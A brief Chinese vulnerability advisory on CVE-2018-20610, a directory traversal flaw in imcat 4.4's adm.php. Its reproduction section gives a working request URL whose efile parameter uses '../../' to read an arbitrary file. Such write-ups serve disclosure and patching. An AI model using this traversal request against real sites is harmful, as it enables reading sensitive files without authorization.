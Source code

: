 （CVE-2018-20610）Imcat 4.4 敏感信息泄露
========================================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本中的root/run/adm.php文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

先在D盘创建1.txt

![](resource/(CVE-2018-20610)Imcat4.4敏感信息泄露/media/rId24.png)

    http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn

![](resource/(CVE-2018-20610)Imcat4.4敏感信息泄露/media/rId25.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
